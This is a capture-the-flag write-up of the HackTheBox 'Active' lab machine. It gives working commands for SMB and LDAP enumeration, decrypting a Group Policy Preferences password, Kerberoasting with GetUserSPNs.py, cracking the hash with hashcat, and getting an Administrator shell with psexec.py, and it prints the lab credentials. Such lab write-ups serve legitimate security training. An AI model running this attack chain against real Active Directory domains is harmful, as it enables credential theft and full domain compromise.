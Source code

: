 # Active 

![hackthebox active](/content/assets/img/active.png)

## Nmap
first  I started with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 12:29 CDT
Nmap scan report for 10.10.10.100
Host is up (0.12s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

A lot of ports open but I can see kerberos,ldap and active directory so I started by enumerating ldap using `ldapsearch` 

```bash
ldapsearch -x -h 10.10.10.100 -b “DC=active,DC=htb”
```
I didn't get any useful info. 

I tried nmap script also. No info. 

then I did enum4linux 

`enum4linux 10.10.10.100`

no usefull info except for listing smb shares: 

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available
```

I tried smbmap but didn't work ( authorization ) 

Also, I tried this but nothing worked: 

```
   16  nmblookup -A 10.10.10.100
   17  ping 10.10.10.100
   18  nmblookup 10.10.10.100
   19  smbmap -H 10.10.10.100
   20  smbclient -U "" -no-pass -L 10.10.10.100 
   21  enum4linux 10.10.10.100
   18  rpcclient -U "" -N 10.10.10.100
```

Additionally:

```
Host script results:
|_clock-skew: 12h13m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
```
So no relay attacks will work because Message signing is enabled and required. 

After trying smbclient I managed to connect anonymously to the directory `Replication` using:
```bash
smbclient //10.10.10.100/Replication 
```
It is a copy of the SYSVOL ( read about it here: https://adsecurity.org/?p=2288 )

After enumerating the folders and getting the files, I found an xml file that contains: 


```bash
the user: svc_tgs 
password: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
 
 Its AES and we are going to decrypt it using gpp-decrypt 
 gpp-decrypt ‘AESpassword’

```

Got the password: `GPPstillStandingStrong2k18`

I managed to connect using smbclient using the credentials. 

I got the flag from Desktop

Now I decided t to enumerate ldap users so I used:

```bash
ldapsearch -x -h 10.10.10.100 -D "svc_tgs" -W 'GPPstillStandingStrong2k18' -p 389 -b "CN=SVC_TGS,CN=Users,DC=active,DC=htb" -s sub "(&(objectclass=person)(objectclass=user))"  I got tons of info
```

Then I used GetADusers.py 

```bash
GetADUsers.py -dc-ip active.hbt/svc_tgs:GPPstillStandingStrong2k18
```
## root

back to nmap we need to do kerbroasting:

Kerberos authentication uses Service Principal Names (SPNs) to identify the account associated
with a particular service instance. ldapsearch can be used to identify accounts that are
configured with SPNs.

So we will use `GetUsersSPN.py` 

`GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request`

After we get the hash, we crack it using hashcat: 

```bash
hashcat -m 13100 hashtocrack.txt /home/qunix/bugbounty/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt --force
```

we get the `Administrator` password: `Ticketmaster1968`​

Now to get the shell I tried using psexec. 

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```